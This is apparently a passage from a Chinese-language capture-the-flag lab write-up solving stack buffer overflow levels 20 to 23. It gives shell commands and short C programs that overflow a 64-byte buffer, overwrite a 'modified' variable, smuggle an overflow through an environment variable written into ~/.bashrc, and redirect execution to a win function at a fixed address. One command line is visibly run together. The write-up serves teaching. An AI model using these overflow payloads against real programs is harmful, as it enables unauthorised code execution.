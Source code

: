 2. 编译链接执行，查看输出获得flag

![19](https://s2.loli.net/2021/12/17/JHGR3MuEAkh9mFn.png)

# Level20

1. 输入65个'a'给flag20程序，造成数组越界，修改modified的值不为0，获得flag：

   ```shell
   $ for i in {0..64};do echo -n 'a' >> /tmp/overflow20;done;
   $ cat /tmp/overflow20 | ./flag20
   ```

![20](https://s2.loli.net/2021/12/17/23twKc1QB9SWaVn.png)

# Level21

1. 越界后修改modified为0x56575859 (也就是 VWXY)：

   ```shell
   $ ./flag21 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaYXWV
   ```

![21](https://s2.loli.net/2021/12/17/Fb864t9OyxkKpe7.png)

# Level22

1. 编写添加环境变量的脚本 /tmp/atk22.c

   ```C
   #include<stdio.h>
   int main(){
     printf("export NJUCS='aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa%c%c%c%c'", 0x0a, 0x0d, 0x0a, 0x0d);
   }
   ```

2. 编译运行，将输出结果添加到 ~/.bashrc 中，刷新

   ```shell
   $ gcc /tmp/atk22.c -o /tmp/atck22$ /tmp/atk22 >> ~/.bashrc
   $ source ~/.bashrc
   ```

3. 运行 ./flag22 ，获得flag

![22](https://s2.loli.net/2021/12/17/Oswi9ESBJHWjD2h.png)

# Level23

1. (gdb) x win 查看win函数地址，为 0x804846b

2. 编写/tmp/atk23.c

   ```c
   #include<stdio.h>
   int main() {
    printf("aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa%c%c%c%c", 0x6b, 0x84, 0x04, 0x08);
   }
   ```

3. 构造payload，运行

![23](https://s2.loli.net/2021/12/17/a4OvYFqQZA1uxRP.png)
